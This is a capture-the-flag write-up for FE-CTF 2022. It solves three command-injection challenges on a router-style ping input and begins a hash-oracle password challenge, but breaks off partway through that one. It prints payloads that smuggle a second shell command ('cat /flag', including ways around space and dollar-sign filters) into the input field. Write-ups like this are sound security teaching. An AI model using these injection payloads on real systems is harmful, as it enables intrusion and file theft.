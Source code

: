 ```yaml
---
title: "FE-CTF (HackingFromEstonia): Finals and Quals Writeups"
date: 2022-11-28T21:49:35+01:00
---
```


# Qualifiers - Dig1
A lot of older routers, have this thing in settings that allows your to ping routers. This input is 
usually just smacked directly into bash, and then executed. Knowing this, we can try command injection
with something as simple as:

```
127.0.0.1; cat /flag
```

`flag{do people still use php?}`

# Qualifiers - Dig2
This is the same type of challenge, except now we don't have spaces. Googling this issue:
https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces

Gives us a payload we can try
```
127.0.0.1;cat${IFS}/flag
```

`flag{who needs to sanitize input anyway?}`

# Qualifiers - Dig3
For the last one we cannot use dollar signs, so we try something else:

```
127.0.0.1;cat<flag
```

`flag{it's not bug, it's a feature}`

# Qualifiers - Hash Uppers Downers
I solved this challenge after the CTF with my friend Mikbrosim. 
We knew what to do, during the CTF - but we were playing from an airport, so we didn't have a lot of time.

We're given some source code, and a remote. Now upon sending a password to the remote, we're told
whether or not the value we sent, hashed, is less than the hash of the password stored on the server.

The charset of the password is as follows:
```c
unsigned char ALPHABET[] =
            "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
            "abcdefghijklmnopqrstuvwxyz"
            "0123456789";
```
This is 62 different characters. We know that there's atleast 5 characters in the password:
```c
assert(strlen(PASSWORD) <= 5);
```
